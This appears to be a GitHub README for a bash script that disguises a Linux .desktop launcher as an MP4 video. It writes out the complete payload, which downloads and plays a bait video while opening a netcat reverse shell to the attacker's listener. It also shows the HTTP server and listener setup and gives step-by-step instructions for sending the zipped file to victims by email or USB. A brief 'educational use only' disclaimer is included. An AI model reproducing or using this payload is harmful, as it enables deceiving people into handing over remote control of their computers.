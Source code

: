 Credits for this go to Null Byte All I did was turn it into the payload bash script here is their video and blog on it https://www.youtube.com/watch?v=ZlfloTpLGT0 https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078/

The MP4_Reverse_Shell repository is designed to automate the creation and distribution of a reverse shell payload disguised as a video file. When the video file is executed, it establishes a reverse shell connection back to the attacker’s system. The script requires minimal input, only needing the IP address of the listener, and automatically sets up the necessary components such as the payload, HTTP server, and listener.

File Breakdown: payload.sh

Listener IP Input:
read -p "Enter your listener IP address (e.g., 192.168.1.XX) " listener_ip

The attacker is prompted to enter their listener IP address, which is the address where the attacker will listen for the reverse shell connection. This is crucial for the attack to target the correct machine.

IP Address Validation:
if [[ ! "$listener_ip" =~ ^[0-9]+.[0-9]+.[0-9]+.[0-9]+$ ]]; then echo "Invalid IP address format. Exiting..." exit 1 fi

The script checks if the entered IP address is in the correct format. If it’s invalid, the script exits to prevent errors. This step ensures that the attacker provides a valid listener IP.

Installing Dependencies:
apt-get update apt-get install -y python3 wget curl zip netcat

The script installs necessary packages (python3, wget, curl, zip, netcat) if they aren't already installed. These tools are used for downloading the video, creating the payload, serving the video, and setting up the listener.

Preparing the Video File:
curl -L https://yt-dl.org/downloads/latest/youtube-dl -o /usr/local/bin/youtube-dl chmod a+rx /usr/local/bin/youtube-dl youtube-dl --restrict-filenames -f 18 'https://www.youtube.com/watch?v=dQw4w9WgXcQ' mv *.mp4 real_video.mp4

The script downloads a Rick Roll video using youtube-dl and renames it to real_video.mp4. This video is used as bait to deceive the target.

Creating the Fake Payload:
cat <<EOF > fake_video.desktop #!/usr/bin/env xdg-open [Desktop Entry] Encoding=UTF-8 Name=fake_video.mp4 Exec=/usr/bin/wget 'http://$listener_ip/real_video.mp4' -O /tmp/real_video.mp4; /usr/bin/xdg-open /tmp/real_video.mp4; /usr/bin/mkfifo /tmp/f; /bin/nc -e /bin/bash $listener_ip 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1 & Terminal=false Type=Application Icon=video-x-generic EOF

This section creates a .desktop file, which appears to be a video file but actually sets up a reverse shell. It downloads the video, opens it, and connects back to the attacker’s system using nc (netcat) for the reverse shell.

Starting the HTTP Server:
python3 -m http.server 80 &

The script starts a simple HTTP server on port 80 to serve the video to the target when they attempt to download it.

Starting the Netcat Listener:
nc -lvnp 1234

The script starts a netcat listener on port 1234, waiting for the reverse shell to connect. Once the payload is executed on the target, this listener provides the attacker with control of the target system.

Packaging Files for Distribution:
zip -r /tmp/videos.zip /tmp/pythonServer/videos/

This command zips the folder containing the video and payload into a single file, making it easy to distribute to the target.

How to Use the payload.sh Script

Clone the Repository:
git clone https://github.com/SleepTheGod/MP4_Reverse_Shell.git

Run the Script:
On your local machine, run the payload.sh script. You’ll be prompted for the listener IP address where you want to receive the reverse shell.

Distribute the Zip File:
The script will create a zip file (videos.zip) containing the payload. Distribute this file to the target (via email, USB, etc.).

Wait for the Reverse Shell:
Once the target executes the fake video file, the reverse shell will connect back to your listener on port 1234.

Important Considerations

Ethical and Legal Use:
This script is intended for educational purposes only. Unauthorized use of this script to access systems is illegal and unethical. Only use it in authorized penetration testing environments or for educational demonstrations.

Network Configuration:
Make sure your listener IP is reachable from the target system. If you're behind a firewall or NAT, consider using port forwarding or services like ngrok to expose your local port.

Conclusion

The payload.sh script simplifies the process of creating and distributing a reverse shell payload disguised as a video. With minimal input, the script automatically sets up the listener, prepares the payload, and serves the video to the target. This makes it easier for an attacker to execute a reverse shell attack without requiring manual intervention. Make sure to use this script responsibly and within legal boundaries.

This breakdown provides a clear understanding of the script’s functionality and how to use it effectively.
